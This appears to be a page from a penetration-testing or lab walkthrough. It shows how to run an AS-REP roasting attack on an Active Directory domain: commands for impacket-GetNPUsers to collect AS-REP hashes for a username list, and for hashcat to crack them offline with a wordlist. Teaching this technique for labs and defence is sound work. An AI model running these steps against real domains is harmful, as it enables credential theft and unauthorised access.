

---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: false
  tags:
    visible: true
---

# 1.4.2 AsRepRoasting with Impacket

In this step, we perform AsRepRoasting attack using `impacket` tool. Where we use the users.txt file (username list) which we founded in previous enumeration part.

First we add the domain name into our `/etc/hosts` file:

```bash
sudo echo "<DOMAIN-IP> <DOMAIN.NAME>" | sudo tee -a /etc/hosts
```

<figure><figcaption></figcaption></figure>

Next Run the following `impacket` command to request AS-REP hashes from the domain:

```bash
impacket-GetNPUsers -no-pass -usersfile <USERNAME-FILE> <DOMAIN.NAME>
```

<figure><figcaption></figcaption></figure>

Now Save the hash into a file for offline crack:

```bash
echo <'HASH'> > <FILENAME.TXT>
```

Crack the hash using `hashcat`:

```bash
hashcat <FILENAME.TXT> /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
